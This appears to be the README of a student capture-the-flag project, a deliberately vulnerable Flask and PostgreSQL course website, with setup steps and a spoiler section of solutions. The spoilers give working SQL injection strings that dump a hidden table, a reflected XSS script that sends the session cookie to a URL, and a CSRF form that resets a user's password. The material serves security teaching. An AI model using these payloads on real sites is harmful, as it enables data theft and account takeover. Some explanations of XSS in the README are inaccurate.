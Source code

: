 # 2023 COMP6841 My awesome project
## UPDATE ON FEB 2024
`docker compose up` to run

## Overview of attacks
Players may find that they can perform a bunch of cyber attackers to this vulnerable website. All the attacks can be found in OWASP top 10 [OWASP TOP10](https://owasp.org/www-project-top-ten/).
1. SQL Injection
    * Warm up, can you print out all users' names and passwords?
    * Shhhhh... there's a top secret in this website...
2. XSS (stored & reflected)
    * Stored XSS: typically refering to the XSS attack where malicious scripts are stored in the server(database), and executed on the user's browser.
    * Reflected XSS: unlike the stored XSS executing on the user's server, a reflected XSS attack executes on the server. Can you perform both XSS on /view-course page?
3. Broken access control
    * When selecing a course with pre-requisite and when you haven't satisfy all the requisite, the website will not allow you to select the course. However, can you bypass the restriction and add COMP9900 to your list?
4. CSRF
    * CSRF attack is when some malicious script or program causes user's browser to perform unwanted actions, normally without their consent. If you know that your friend's user email is user1@unsw.com, can you write a script to change a logged-in user's password?
5. Cryptographic Failures


## Structure
The website is built from Python3 flask as the backend, with html/css frontend and postgreSQL database. Most of the frontend template is from [https://github.com/bearlike/Pixel-Portfolio-Webite].


## Getting started
```
mkdir myctf
cd myctf
git clone git@github.com:4Christinelh4/CTF.git
```
### Running pgsql in docker
To make player's life easier and to let them focus more on attacking the website, the pgsql database is on docker. Players do not need to install and config pgsql on their machines. Follow the steps:

1. Download and install docker on your machine [docker](https://www.docker.com/)
2. Build docker image
```
[docker build -t <image name> <path to the directory where the Dockerfile is in>]
docker build -t pgsqldocker .
```
3. Create the container
```
[docker run -d --name <name of your container> -p <host port:container port> <name of the image>]
docker run -d --name pgsqlctf -p 5044:5432 pgsqldocker
```
4. Go in the container as user postgres, where there the database is
```
docker exec -it pgsqlctf psql -U postgres
```

### Start the server
```
pip3 install -r ctf/requirements.txt
python3 ctf/app.py 5044
```
*Note that in previous step, port 5432 (the port where pgsql in docker is listening on) maps to port 5044 on host machine.*

## Spoiler alert 😈
### SQL injection 1 🌶 
- Just use `' or 1=1; --`
### SQL injection 2 🥓 
- How to find out the name of the database? Try `Union` in pgsql. We firstly use 
```
' or 1=1 union select 'a', current_database(); --
```
to know the name of the database. It's comp6841db.
Then, using this to print out all tables' names in comp6841db
```
' union select '1', table_name from information_schema.tables where table_catalog='comp6841db' and table_schema = 'public'; --
```
to know table's name in this database. It's top_secret.
Then, using this to select everything in this table
```
' union select * from top_secret; -- haha 
```
### Reflected XSS 🛸
- Thinking about what we learned in lecture, and try putting "abcd" in the question form and submit, you will find the content you typed showing in the url. This can definitely be exploited. Try replace the "abcd" with 
```
<script>document.location="http://127.0.0.1:5000/i-am-bad?q="%2Bdocument.cookie</script>
```
and see where you are redirected.
### Stored XSS 🥞
- Hmmmm, maybe try using 
```
<script>alert("the course is poorly designed")</script>
```
in any comment box :D
### CSRF 🚨
- This html actually does everything that /reset-password does.
```
<html>
    <body>
        <form action="http://127.0.0.1:5000/reset-password" method="POST">
            <input type="hidden" name="email" value="z5433878@yuwei" />
            <input type="hidden" name="new_password" value="password" />
            <input type="hidden" name="confirm_password" value="password" />
            <input type="submit" value="Submit request" />
        </form>
    </body>    
</html>
```
### Broken access control 🗝


## Limitations
This website is designed for cyber security learners to perform attacks. I planned to make a version that protect the website from all the above attacks, for example, with CSRF tokens implemented and sanitizations of user inputs. However, the version is not finished due to the time limit. 